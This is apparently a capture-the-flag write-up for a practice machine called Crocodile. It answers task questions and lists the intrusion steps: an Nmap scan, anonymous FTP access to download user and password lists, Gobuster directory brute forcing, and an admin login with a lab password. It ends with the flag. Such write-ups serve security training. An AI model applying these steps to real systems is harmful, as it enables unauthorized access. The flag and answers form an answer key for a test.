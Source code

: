 # Crocodile  

## Task 1  
Q: What Nmap scanning switch employs the use of default scripts during a scan?  
A: -sC  

## Task 2  
Q: What service version is found to be running on port 21?  
A: vsftpd 3.0.3  

## Task 3  
Q: What FTP code is returned to us for the "Anonymous FTP login allowed" message?  
A: 230  

## Task 4  
Q: After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?  
A: anonymous  

## Task 5  
Q: After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?  
A: get  

## Task 6  
Q: What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?  
A: admin  

## Task 7  
Q: What version of Apache HTTP Server is running on the target host?  
A: Apache httpd 2.4.41  

## Task 8  
Q: What switch can we use with Gobuster to specify we are looking for specific filetypes?  
A: -x  

## Task 9  
Q: Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?  
A: login.php  

## SUBMIT FLAG  
``` text
1. scan open ports
    (1) [host] # nmap -sC -sV ${ip} -v
2. try to access FTP server anonymously
    (1) [host] # ftp ${ip}
    (2) enter 'anonymous' as username
3. get account info from FTP server
    (1) ftp> ls
    (2) ftp> get allowed.userlist
    (3) ftp> get allowed.userlist.passwd
    (4) ftp> exit
4. check the website which the target hosts.
    (1) Use a browser to visit http://${ip}/
    (2) Can use 'Wappalyzer' to check the techniques used on the website.
5. gobuster the website
    (1) [host] gobuster dir --url http://${ip}/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
    (2) found /login.php
6. get the flag
    (1) Use a browser to visit http://${ip}/login.php
    (2) enter admin:rKXM59ESxesUFHAd as account info.
```
A: c7110277ac44d78b6a9fff2232434d16  
